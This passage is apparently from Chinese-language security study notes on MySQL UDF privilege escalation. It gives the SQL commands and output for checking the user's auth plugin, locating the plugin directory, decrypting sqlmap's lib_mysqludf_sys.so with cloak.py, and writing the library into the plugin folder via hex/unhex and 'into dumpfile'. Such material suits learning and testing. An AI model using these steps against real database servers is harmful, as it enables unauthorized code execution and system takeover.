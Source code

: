 ```python
mysql> select host,user,plugin from mysql.user where user = substring_index(user(),'@',1);
+-----------+------+-----------------------+
| host      | user | plugin                |
+-----------+------+-----------------------+
| localhost | root | mysql_native_password |
+-----------+------+-----------------------+
1 row in set (0.02 sec)
```

plugin值表示mysql用户的认证方式。当 plugin 的值为空时不可提权，为 mysql_native_password 时可通过账户连接提权。默认为mysql_native_password。另外，mysql用户还需对此plugin目录具有写权限。

## 上传udf库文件

1. 获取plugin路径

```python
 show variables like "%plugin%";
    /va
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364340010-62bac8e7-eae3-441e-ac84-3b0f0dde221f.png#averageHue=%23bfba9b&id=Ahp3k&originHeight=245&originWidth=796&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

1. 获取服务器版本信息

```python
SHOW VARIABLES LIKE 'version_compile_%';
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364340100-d91be41d-3080-46a6-b117-cc703d0feded.png#averageHue=%23dcc597&id=yasVi&originHeight=341&originWidth=603&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

准备udf库文件

需要选择对应的版本，否则会报错。

- 从sqlmap获取sqlmap中有现成的udf文件。分别是32位和64位的。这里选择sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_。不过这里的so是异或过的，需要执行以下命令解密：

```python
cd sqlmap/extra/cloak

python3 cloak.py -d -i /security/ctf/tools_bar/4_注入攻击/SQLI/sqlmap-dev/data/udf/mysql/linux/64/lib_mysqludf_sys.so_
```

- 此时会在相同目录生成解密后的lib_mysqludf_sys.so。
- 从metasploit中获取在kali的/usr/share/metasploit-framework/data/exploits/mysql目录下找到相应的库即可。这个库和sqlmap解密后的一模一样。
- 自行编译
- 上传udf库文件

```python
mysql> select hex(load_file('/security/ctf/tools_bar/4_注入攻击/SQLI/sqlmap-dev/data/udf/mysql/linux/64/lib_mysqludf_sys.so')) into outfile '/tmp/udf.txt'; Query OK, 1 row affected (0.03 sec) ```

mysql> select unhex('7F454C46020...') into dumpfile '/usr/local/Cellar/mysql/5.7.22/lib/plugin/mysqludf.so';
Query OK, 1 row affected (0.04 sec)
```
